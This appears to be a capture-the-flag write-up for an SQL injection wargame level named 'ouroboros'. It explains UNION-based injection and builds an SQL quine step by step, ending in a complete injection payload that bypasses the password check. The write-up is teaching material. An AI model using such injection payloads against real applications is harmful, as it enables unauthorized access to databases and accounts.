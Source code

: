 ```yaml
---
custom_edit_url: null
sidebar_position: 30
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/1484f622-d41c-4263-9655-405d71ed15d5)

We are provided with the SQL query:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='{$_GET[pw]}'
```

If `$result['pw']` is equal `$_GET['pw']`, the challenge is solved.

If we provide the following URI parameter:

```
?pw=' UNION SELECT 1 -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT 1 -- -'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/33c02c9b-464c-4920-b0aa-4d463a1bc01c)

In this case the `$result['pw']` and `$_GET['pw']` differ as follows:

```
$result['pw']: 1
$_GET['pw']: ' UNION SELECT 1 -- -
```

In order to make them the same, we have to use a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)) program.

&nbsp;

## Quine

A Quine is a program that outputs its own souce code without having access to it.
An example of a SQL Quine is:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine',
char(34),char(39)),char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine')
AS Quine 
```
### Initial string

```sql
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine'
```
### First replacement

```sql
-- - SELECT Replace( -- -
Replace( 
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine', 
char(34), 
char(39)
)
-- - , char(36), 'SELECT REPLACE(REPLACE("$",char(34),char(39)),char(36),"$") AS Quine') AS Quine -- -
```

Replace all occurrences of `char(34)` (double quote `"` character) with `char(39)` (single quote `'` character):

```sql
-- - SELECT Replace( -- -
'SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\') AS Quine'
-- - , char(36), 'SELECT REPLACE(REPLACE("$",char(34),char(39)),char(36),"$") AS Quine') AS Quine -- -
```
### Second replacement

```sql
-- - SELECT -- -
Replace(
'SELECT Replace(Replace('$',char(34),char(39)),char(36),'$') AS Quine', 
char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine'
)
-- - AS Quine -- -
```

Replace all occurrences of `char(36)` (dollar sign `$` character) with the original string:

```sql
-- - SELECT -- -
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\',
char(34),char(39)),char(36),
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\')
AS Quine'
-- - AS Quine -- -
```
### Putting it All Together

The final result of the query is the string after both replacements, as follows:

```sql
SELECT
'SELECT Replace(Replace(
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\',
char(34), char(39)), char(36),
\'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine\')
AS Quine'
AS Quine
```

When this SQL query is executed, it will produce a single column named `Quine` containing the following text:

```sql
SELECT Replace(Replace(
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine',
char(34), char(39)), char(36),
'SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") AS Quine')
AS Quine
```

Thus, we can see how the query repeats itself.

&nbsp;
## Modified Quine

```sql
' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),char( 39)),char(36), 
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')
%23
```
### First replacement

```sql
-- - ' UNION SELECT Replace( -- -
Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),
char(39)
)
-- -,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```

Replace all occurrences of `char(34)` (double quote `"` character) with `char(39)` (single quote `'` character):

```sql
-- - ' UNION SELECT Replace( -- -
'\' UNION SELECT Replace(Replace(\'$\',char(34),char(39)),char(36),\'$\')%23'
-- -,char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')%23 -- -
```
### Second replacement

```sql
-- - ' UNION SELECT -- -
Replace(
'\' UNION SELECT Replace(Replace('$',char(34),char(39)),char(36),'$')%23',
char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23')
-- - %23 -- -
```

Replace all occurrences of `char(36)` (dollar sign `$` character) with the original string:

```sql
-- - ' UNION SELECT -- -
'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
-- - %23 -- -
```
### Putting it all together

The final result of the query is the string after both replacements, as follows:

```sql
' UNION SELECT 
\'\' UNION SELECT Replace(Replace(
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
,char(34),char(39)),char(36),
\'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23\'
)%23'
%23
```

When this SQL query is executed, it will return the following text:

```sql
' UNION SELECT Replace(Replace(
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23',
char(34),char(39)),char(36),
'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$")%23'
)%23
```

We have successfully managed to create a Quine to solve this challenge.

Now, we have to implement this for the challenge.
We will have to modify this Quine to the following:

```sql
UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

If we provide the following URI parameter:

```
?pw=' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -
```

The resultant query becomes:

```sql
SELECT pw FROM prob_ouroboros WHERE pw='' UNION SELECT Replace(Replace('" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -',char(34),char( 39)),char(36),'" UNION SELECT Replace(Replace("$",char(34),char(39)),char(36),"$") -- -') -- -'
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/075e1d88-9e46-4cd7-a829-b8c68814e9d7)
